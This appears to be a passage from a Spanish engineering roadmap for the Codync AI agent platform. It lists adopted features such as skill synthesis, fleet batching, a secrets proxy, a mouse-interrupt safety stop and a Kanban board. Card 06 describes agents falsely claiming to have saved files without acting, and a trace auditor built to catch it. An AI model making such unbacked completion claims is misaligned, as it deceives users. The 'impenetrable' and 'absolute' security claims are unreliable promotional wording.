- **Problema en Codync:** Cuando un agente aprende a resolver un flujo complejo tras mltiples iteraciones, el conocimiento se pierde al cerrar la sesin.
- **Solucin para Codync:**
  - Tras cualquier turno que involucre >= 4 llamadas a herramientas exitosas o una resolucin tras correccin del usuario, disparar en segundo plano un analizador de sntesis.
  - Guardar el procedimiento destilado en `skills/self-made/<slug>/SKILL.md`.
  - Etiquetar con `origin: self-made`, `verified: false` y contador de usos.
  - Implementar la poltica de higiene: mximo 40 skills autogeneradas; desactivacin tras 30 das de inactividad.
- **Archivos a modificar/crear:**
  - `host/src/skills/synthesis.rs` (nuevo)
  - `host/src/skills/manager.rs`
  - `docs/features/skills.md`
- **Esfuerzo:** M (1.5 semanas).
- **Valor:** Alto. Capitalizacin acumulativa del conocimiento tcito de trabajo del agente.

---

### Ficha 05: Orquestador de Flota con Tareas Tipadas y Fan-In Agrupado
- **Origen:** `mercury-agent` (`src/bots/tasks.ts`, `src/bots/queue.ts`, ADR-021).
- **Problema en Codync:** El trabajo multi-bot actual despierta al bot coordinador por cada mensaje de cada bot subordinado, agotando la cuota rpidamente y dispersando el contexto.
- **Solucin para Codync:**
  - Implementar `BotTask` con campos: `id`, `requester_bot_id`, `assignee_bot_id`, `goal`, `acceptance_criteria`, `status`.
  - Agrupar en lotes con `wake_policy: 'all' | 'each'` y `deadline`.
  - El coordinador despacha el lote y entra en reposo hasta que todas las subtareas se completan o vence el tiempo lmite.
  - El coordinador despierta una sola vez con un resumen estructurado (`BatchDigest`).
- **Archivos a modificar/crear:**
  - `host/src/fleet/tasks.rs` (nuevo)
  - `host/src/fleet/batch.rs` (nuevo)
  - `host/src/agent/supervisor.rs`
- **Esfuerzo:** M (2 semanas).
- **Valor:** Muy alto. Reduce hasta un 85% el gasto de tokens en operaciones complejas de equipo.

---

### Ficha 06: Auditor de Traza y Veredicto Antialucinacin de Finalizacin
- **Origen:** `mercury-agent` (`src/bots/bot-turn.ts`, ADR-020).
- **Problema en Codync:** Ocasionalmente un agente responde afirmando que "ha verificado y guardado el archivo" sin haber emitido la llamada a la herramienta correspondiente.
- **Solucin para Codync:**
  - Analizar la traza de herramientas al final del turno.
  - Clasificar el resultado real: `deliverable`, `action`, `delegated`, `message` o `none`.
  - Si una tarea autnoma o rutina esperaba trabajo (`expects: work`) y la clasificacin resulta `none`, detectar `claimed_without_action`.
  - Inyectar un empujn corrector ("No has emitido ninguna accin fsica ni modificado archivos; completa la tarea con las herramientas").
  - Si una rutina cron acumula 3 fallos consecutivos en `none`, suspenderla preventivamente y notificar al usuario.
- **Archivos a modificar/crear:**
  - `host/src/agent/verdict.rs` (nuevo)
  - `host/src/agent/turn.rs`
- **Esfuerzo:** S (1 semana).
- **Valor:** Crtico para confiabilidad y autonoma real sin supervisin humana constante.

---

### Ficha 07: Companion Nativo Multimodal Optimus con Loop de Voz en Tiempo Real
- **Origen:** `mercury-agent` (`plugins/optimus/companion/`).
- **Problema en Codync:** Codync cuenta con remote screen bsico, pero carece de un flujo de voz multimodal fluido en tiempo real con tecla push-to-talk integrada directamente con la visin y control del escritorio.
- **Solucin para Codync:**
  - Adoptar el companion en Rust para Windows, macOS y Linux.
  - Canal de audio dplex en tiempo real (Gemini Realtime API / Cartesia).
  - Hotkey global push-to-talk (`Ctrl+Alt+M`) con feedback sonoro (chimes y tic de actividad).
  - Integracin con las herramientas de visin y accin de Codync Screen (`look`, `act`, `act_consequential`).
- **Archivos a modificar/crear:**
  - `host/src/companion/` (mdulo Rust en el host)
  - `apps/screen-windows/` (o integracin en el host)
  - `apps/desktop/src/main/voice_hotkey.ts`
- **Esfuerzo:** L (3 semanas).
- **Valor:** Enorme para interaccin natural y uso manos libres mientras se trabaja.

---

### Ficha 08: Interrupcin Fsica por Ratn y Filtro de Credenciales
- **Origen:** `mercury-agent` (`plugins/optimus/companion/src/motion.rs` y `ops.rs`).
- **Problema en Codync:** Durante una sesin de Computer Use, si el bot realiza un movimiento no deseado o se topa con un campo de contrasea, puede resultar difcil para el usuario arrebatarle el control rpidamente.
- **Solucin para Codync:**
  - Listener de hardware en segundo plano: si se detecta movimiento fsico del ratn humano durante la ejecucin de un paso del agente, abortar de inmediato la operacin y liberar el control.
  - Deteccin de contexto de credenciales: ante campos identificados como password, PIN o 2FA, el agente se detiene forzosamente y solicita al usuario que los introduzca manualmente.
- **Archivos a modificar/crear:**
  - `host/src/screen/safety.rs` (nuevo)
  - `host/src/screen/mouse_listener.rs`
- **Esfuerzo:** S (4 das).
- **Valor:** Mxima seguridad y sensacin de control instantneo para el usuario.

---

### Ficha 09: Proxy Zero-Leak de Secretos con Redaccin Triple
- **Origen:** `bdots` (`src/agents/secrets.ts`).
- **Problema en Codync:** Para integrar servicios de terceros sin OAuth, pasar API keys en variables de entorno o herramientas expone los secretos a inyecciones de prompt o exfiltracin en transcripts.
- **Solucin para Codync:**
  - Almacenar secretos en el host cifrados con clave local, ligados estrictamente a un origen HTTPS (`https://api.service.com`).
  - Proveer la herramienta `secret_request(secret_name, url, method, body)` donde el bot nunca maneja el valor del secreto.
  - El host valida el origen, inyecta el encabezado `Authorization` en la peticin HTTP y examina la respuesta antes de devolverla.
  - Aplicar redaccin triple: reemplazar por `[redacted]` cualquier aparicin del secreto en texto plano, codificado en URL o codificado en Base64.
- **Archivos a modificar/crear:**
  - `host/src/security/secrets_proxy.rs` (nuevo)
  - `host/src/tools/secret_request.rs` (nuevo)
- **Esfuerzo:** S (1 semana).
- **Valor:** Blindaje absoluto contra exfiltracin de credenciales va prompt injection.

---

### Ficha 10: Grabacin de Demostraciones en Navegador (Teach a Bot by Demo)
- **Origen:** `bdots` (`src/agents/teach.ts`).
- **Problema en Codync:** Cuando un bot no sabe cmo operar un sitio web especfico o intranet corporativa, el usuario tiene que redactar instrucciones detalladas en texto.
- **Solucin para Codync:**
  - Durante un Take-Over en el navegador, inyectar el script grabador semntico de `teach.ts`.
  - Capturar clics, inputs, roles ARIA, etiquetas semnticas y rutas de navegacin, ignorando contraseas y campos sensibles.
  - Preservar el log va `window.name` y `localStorage` a travs de redirecciones y cambios de pgina.
  - Al pulsar "He terminado", el host procesa la traza y le pide al bot: *"Genera un script o skill para reproducir este flujo demostrado por el usuario"*.
- **Archivos a modificar/crear:**
  - `host/src/browser/teach.rs` (nuevo)
  - `apps/desktop/src/renderer/components/BrowserTakeoverModal.tsx`
- **Esfuerzo:** M (1.5 semanas).
- **Valor:** Excepcional facilidad de enseanza para usuarios no tcnicos ("mustrale al bot cmo se hace").

---

### Ficha 11: Tablero Kanban SQLite con Sub-Agentes Autnomos
- **Origen:** `mercury-agent` (`src/core/board-db.ts`, `src/core/board-manager.ts`, `src/web/api/kanban.ts`).
- **Problema en Codync:** No existe una representacin visual del trabajo asncrono estructurado en curso; las tareas slo existen en el chat o en la lista de background tasks.
- **Solucin para Codync:**
  - Crear motor de base de datos de tableros (`boards.db`) en el host con tablas para tableros, columnas, tarjetas y actividades.
  - Permitir asociar una tarjeta a un sub-agente (`assignee_agent_id`).
  - Habilitar dependencias entre tarjetas (`depends_on`).
  - Exponer API REST y SSE para actualizacin reactiva del tablero en Desktop y aplicaciones mviles.
- **Archivos a modificar/crear:**
  - `host/src/kanban/` (nuevo subsistema)
  - `apps/desktop/src/renderer/views/KanbanView.tsx` (nuevo)
  - `apps/android/app/src/main/java/app/codync/app/kanban/` (nuevo)
- **Esfuerzo:** L (3 semanas).
- **Valor:** Visin ejecutiva y gestin estructurada de proyectos multiagente.

---

### Ficha 12: Concurrencia de Archivos Segura (FileLockManager) y LoopGuard
- **Origen:** `mercury-agent` (`src/core/file-lock.ts`) y `bdots` (`src/agents/guards.ts`).
- **Problema en Codync:** Con la ejecucin paralela de mltiples agentes y subagentes en un mismo workspace de cdigo, pueden ocurrir condiciones de carrera de escritura en disco, as como bucles repetitivos si una herramienta falla con parmetros idnticos.
- **Solucin para Codync:**
  - Implementar en el host un `FileLockManager` en memoria con locks compartidos de lectura (`RwLock`) y locks exclusivos de escritura.
  - Implementar `LoopGuard` con serializacin JSON determinista de claves ordenadas que aborte automticamente si se producen 5 llamadas idnticas consecutivas.
  - Implementar poda dinmica de imgenes (mantener slo las 2 ms recientes) para conservar presupuesto de contexto.
- **Archivos a modificar/crear:**
  - `host/src/fs/file_lock.rs` (nuevo)
  - `host/src/agent/loop_guard.rs` (nuevo)
  - `host/src/agent/context_pruning.rs` (nuevo)
- **Esfuerzo:** S (1 semana).
- **Valor:** Estabilidad de runtime, prevencin de corrupcin de archivos y eliminacin de gasto superfluo de tokens en bucles ciegos.

---

## 6. Hoja de Ruta Sugerida de Implementacin

Para maximizar el impacto sin desestabilizar las lneas de trabajo en curso en las otras ramas abiertas, se recomienda estructurar la adopcin en 4 fases progresivas:



1. **Fase 1: Confiabilidad y Seguridad Base (Inmediata - 2 semanas)**
   - Implementacin de `LoopGuard` y poda de imgenes de contexto.
   - `FileLockManager` en el host Rust para coordinar sub-agentes concurrentes.
   - `Proxy Zero-Leak de Secretos` con redaccin triple en HTTP responses.
2. **Fase 2: Memoria Evolutiva y Eficiencia de Flota (3 semanas)**
   - Sistema de Creencias Probabilsticas y Rasgos de Trabajo (ADR-026) en `host/crates/memory`.
   - Fan-in de tareas por lotes para equipos de bots, reduciendo el gasto de tokens hasta un 85%.
   - Veredicto de ejecucin por traza y pausa automtica de rutinas desalineadas.
3. **Fase 3: Generacin de Entregables Dinmicos (4 semanas)**
   - Servidor sandboxed de Mini-Apps de Bots con WebSocket reactivo `AppLive`.
   - Bucle automtico de auto-reparacin de frontend va `_error`.
   - Sntesis autnoma de habilidades (`SKILL.md`) tras flujos exitosos verificados y grabacin de navegador (`teach`).
4. **Fase 4: Multimodalidad y Gestin Visual (4 semanas)**
   - Companion nativo en Rust Optimus para audio bidireccional en tiempo real con tecla push-to-talk.
   - Parada fsica instantnea al mover el ratn de hardware.
   - Tablero visual Kanban respaldado en SQLite para gestin de proyectos multiagente.

---

## 7. Conclusin

La combinacin de las mejores piezas tcnicas de **bdots** y **mercury-agent** dota a Codync de capacidades que actualmente ningn otro producto integra en un solo lugar:
- Un agente que no slo chatea, sino que **aprende rasgos reales y calibrados de su dueo con evidencia probabilstica**.
- Una flota que **trabaja en paralelo de forma asncrona sin quemar tokens** en desperdicio de turnos de coordinacin.
- Bots que pueden **construir herramientas y aplicaciones web completas en segundos** y auto-repararse si fallan.
- Un sistema con **seguridad impenetrable de credenciales** y proteccin fsica interactiva inmediata.

Toda la documentacin y referencias de contratos quedan consolidadas en este directorio (`docs/nuevo thndr/`) listas para la planificacin de tareas en el host Rust y sus clientes.
